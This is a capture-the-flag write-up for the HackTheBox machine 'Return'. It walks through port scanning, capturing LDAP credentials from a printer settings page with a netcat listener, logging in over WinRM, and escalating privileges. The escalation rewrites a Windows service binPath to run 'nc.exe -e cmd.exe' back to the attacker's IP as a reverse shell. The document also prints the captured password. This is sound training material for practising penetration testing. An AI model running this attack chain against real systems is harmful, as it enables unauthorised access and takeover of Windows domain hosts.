

# [Return](https://app.hackthebox.com/machines/Return)

```bash
nmap -p- --min-rate 10000 10.10.11.108 -Pn 
```


After detection of open ports, let's do greater nmap scan.

```bash
nmap -A -sC -sV -p53,80,88,135,139,389,445,464,593,636,3268,3269,5985,9389,47001 10.10.11.108 -Pn 
```


There is page called 'settings.php'.


Let's inject Server Address via our ip address.

1.First, I will start listener.
```bash
nc -lnvp 389
```


2.Second, I wrote my ip address into form.


From here, I grab credentials of `svc-printer` user.

svc-printer: 1edFg43012!!


Let's enumerate `Winrm` that our credentials can get shell or not.

```bash
crackmapexec winrm 10.10.11.108 -u 'svc-printer' -p '1edFg43012!!'
```


Let's connect into machine via this credentials by using `evil-winrm` tool.

```bash
evil-winrm -i 10.10.11.108 -u svc-printer -p '1edFg43012!!'
```

user.txt


I enumerate this user via `services` command to see what services `svc-backup` user have change permission.


I will take service called '**VGAuthService**'.

1.Now, I will upload malicious binary `nc.exe` into machine. (in C:\ProgramData\nc.exe)

2.Then, I change configuration of this service as below.
```bash
sc.exe config VGAuthService binPath="C:\ProgramData\nc.exe -e cmd.exe 10.10.14.5 1337"
```

3.I just do `stop` and `start` to make configurations enabled.
```bash
sc.exe stop VGAuthService
sc.exe start VGAuthService
```




I got reverse shell from port (1337).


root.txt

